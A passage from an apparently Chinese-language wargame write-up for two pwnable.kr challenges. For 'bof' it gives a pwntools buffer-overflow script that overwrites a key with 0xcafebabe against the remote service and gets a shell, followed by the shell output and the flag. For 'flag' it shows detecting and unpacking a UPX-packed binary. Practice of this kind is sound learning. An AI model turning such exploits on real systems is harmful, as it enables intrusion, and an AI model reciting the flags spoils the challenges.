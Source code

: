 ```
fro pwn import *
#r = process("./bof")
r = remote('pwnable.kr', 9000)

key = 0xcafebabe
#print p32(key)

payload = "A"*52 + "\xbe\xba\xfe\xca"+"A"
#payload = "A" * 52  + p32(key)

r.send(payload)
r.interactive()

```

成功获得shell

```
$ 
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$  

```

## 0x4 flag

```
Papa brought me a packed present! let's open it.

Download : http://pwnable.kr/bin/flag

This is reversing task. all you need is binary
```
是个关于脱壳的题目。因为不是PE文件，常用的查壳工具没法查。放到IDA里，在HEX窗口里看到有UPX的字符，猜测是UPX壳。      
其实还可以在linux下直接查看文件里的字符串。在最后也有UPX。      
后来看了别人的WP才知道==检测upx打包的方法是查询UPX!或者UPX0的存在==，用strings一看，果然最后两行是UPX!

```
UPX!
UPX!

```
那么就下载upx脱壳工具，直接脱壳

```
nicefish@nicefish:~/pwn/upx-3.94-amd64_linux$ ./upx -d ./flag
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2017
UPX 3.94        Markus Oberhumer, Laszlo Molnar & John Reiser   May 12th 2017

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    883745 <-    335288   37.94%   linux/amd64   flag

Unpacked 1 file.

```
脱壳后直接用gdb调试，很快就能看到flag
